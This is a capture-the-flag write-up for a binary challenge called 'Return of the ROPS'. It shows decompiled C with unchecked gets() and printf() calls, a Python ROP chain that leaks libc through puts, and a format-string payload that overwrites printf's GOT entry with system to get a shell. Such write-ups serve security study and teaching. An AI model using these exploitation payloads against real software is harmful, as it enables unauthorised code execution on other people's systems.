 ## Return of the ROPS
This binary is a simpler version of pwn_inn.

```c
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  puts("What would you like to say?");
  gets(local_28);
  printf(local_28);
  return 0;
}
```

Buffer overflow and string format attack, there's nothing more we could ask for.

### Leaking libc:
```python
payload = 40*b"A" +  p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```
Simple ROP chain to leak ```puts``` address.
We don't have a libc version, so we use the website [libc database search](https://libc.nullbyte.cat/) to narrow down libc version based on known addresses.

## Getting shell:
We overwrite printf with system, in the same manner we did in pwn_inn, just instead using 3 batches, I used 2 batches and discard the ```BBBB``` part because it's just uneccessary. (Because for both it's 0x007f.)

```python
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%13$hn" +\
		  b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%14$hn"
payload += (0x28-len(payload))*b"A" + p64(ret) + p64(elf.sym.main)
for i in range(0,2):
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```


Send this payload, write ```/bin/sh``` in interactive and get shell :)

